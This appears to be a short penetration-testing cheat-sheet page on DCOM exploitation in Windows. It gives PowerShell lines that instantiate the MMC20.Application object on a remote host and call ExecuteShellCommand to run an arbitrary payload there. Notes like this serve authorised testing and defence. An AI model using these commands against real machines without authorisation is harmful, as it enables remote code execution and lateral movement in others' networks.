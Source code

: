 ```yaml
---
title: DCOM
tags:
  - Exploitation
  - Windows
  - Privilege Escalation
---
```


Allows execution of any shell command as long as the authenticated user is authorized.

```Powershell  Remotely Instantiating the MMC Application object
$dcom = [System.Activator]::CreateInstance([type]::GetTypeFromProgID("MMC20.Application.1","$ip"))
```

---

```powershell Executing a command on the remote DCOM object
# Command : cmd, powershell...
$dcom.Document.ActiveView.ExecuteShellCommand("<Command>",$null,"$payload","7")
```